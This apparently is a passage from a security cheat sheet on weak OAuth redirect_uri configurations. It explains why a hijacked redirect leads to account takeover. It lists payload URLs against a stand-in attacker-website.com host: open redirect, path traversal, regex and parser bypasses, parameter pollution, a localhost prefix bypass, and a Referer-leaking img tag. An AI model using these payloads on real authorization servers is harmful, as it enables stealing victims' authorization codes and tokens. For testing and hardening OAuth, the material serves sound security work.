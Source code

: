 ## Weak redirect_uri configuration

The `redirect_uri` is very important because sensitive data, such as the `code`, is appended to this URL after authorization. If the `redirect_uri` can be redirected to an attacker controlled server, this means the attacker can potentially takeover a victim's account by using the code themselves.

There are several weak configurations, depending on the logic handled by the server:
- Open redirect:

    ```http
    https://auth-server.com/auth?
        redirect_uri=https://attacker-website.com
    ```

- Path traversal or stealing tokens via a proxy page:

    ```http
    https://auth-server.com/auth?
        redirect_url=https://application-website.com/callback/../some/path
    ```

- Weak regex:

    ```http
    https://auth-server.com/auth?
        redirect_url=https://application-website.com.attacker-website.com
    ```

- Discrepancies between the parsing of the URI by the different components:

    ```http
    https://auth-server.com/auth?
        redirect_url=https://application-website.com%20%26@foo.attacker-website.com#@bar.attacker-website.com
    ```

- HTTP parameter pollution:

    ```http
    https://auth-server.com/auth?
        redirect_uri=https://application-website.com/callback&
        redirect_uri=https://attacker-website.com
    ```

- Accidentally permitted any redirect URI beginning with `localhost` in a production environment:

    ```http
    https://auth-server.com/auth?
        redirect_uri=https://localhost.attacker-website.com
    ```

- HTML Injection and stealing tokens via `Referer` header:

    ```html
    <img src="attacker-website.com">
    ```
